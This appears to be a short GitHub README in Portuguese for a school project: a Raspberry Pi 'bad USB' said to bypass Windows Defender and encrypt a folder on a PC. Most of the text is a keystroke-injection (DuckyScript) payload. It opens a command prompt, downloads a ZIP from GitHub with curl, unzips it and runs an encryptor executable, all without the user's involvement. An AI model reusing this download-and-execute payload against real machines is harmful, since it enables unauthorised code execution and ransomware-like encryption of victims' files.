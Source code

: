 # CifrarPastaTrabalhoEscola
Trabalho escola para cifrar uma pasta


rapysberry pi bad usb encrpyt a folder
PROJETO DESENVOLVIDO POR TELES
PROJETO DE ESCOLA PARA CIFRAR UMA PASTA que da bypass ao windows defender



CONTINUACAO DO PROJETO E FAZER DOWNLOAD DO FICHEIRO NO GITHUB A USAR UMA BADUSB PARA ELA FAZER O DOWNLOAD E EXECUTAR E CIFRAR UMA PASTA NO PC



REM Inicia o Notepad
DELAY 1000
GUI r
DELAY 1000
REM Abre a janela de comando
STRING cmd
ENTER
DELAY 1000
REM Vai para a pasta de downloads
STRING cd downloads
ENTER
DELAY 1000
REM Faz o download do arquivo ZIP
STRING curl -LJO https://github.com/PEQSPC/rapysberry-pi-BADUSB-ENCRYPTFOLDER/archive/refs/heads/main.zip
ENTER
DELAY 5000
REM Descompacta o arquivo ZIP
STRING unzip rapysberry-pi-BADUSB-ENCRYPTFOLDER-main.zip
ENTER
DELAY 1000
REM Vai para a pasta descompactada
STRING cd repo-master
ENTER
DELAY 1000
REM Executa o arquivo dentro da pasta
STRING cifrarumapasta.exe
ENTER
